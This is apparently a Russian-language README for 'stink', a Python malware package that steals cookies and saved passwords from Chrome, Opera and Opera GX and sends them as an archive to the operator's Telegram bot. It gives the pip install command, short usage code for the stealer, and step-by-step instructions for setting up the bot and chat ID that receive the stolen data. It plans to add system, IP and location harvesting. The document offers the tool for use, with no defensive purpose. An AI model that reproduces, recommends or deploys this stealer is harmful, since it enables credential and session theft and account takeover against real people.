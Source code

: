 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Кастомный](#Кастомный)
    * [Chrome](#Chrome)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink==0.0.2
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```
### Кастомный
#### Chrome
```python
from os import path, mkdir

from stink.browsers.chrome import Chrome
from getpass import getuser

storage_path = f"C:/Users/{getuser()}/AppData/"
storage_folder = "files/"

if not path.exists(storage_path + storage_folder):

    mkdir(storage_path + storage_folder)

stealer = Chrome(storage_path=storage_path, storage_folder=storage_folder)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="docs/_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="docs/_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="docs/_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
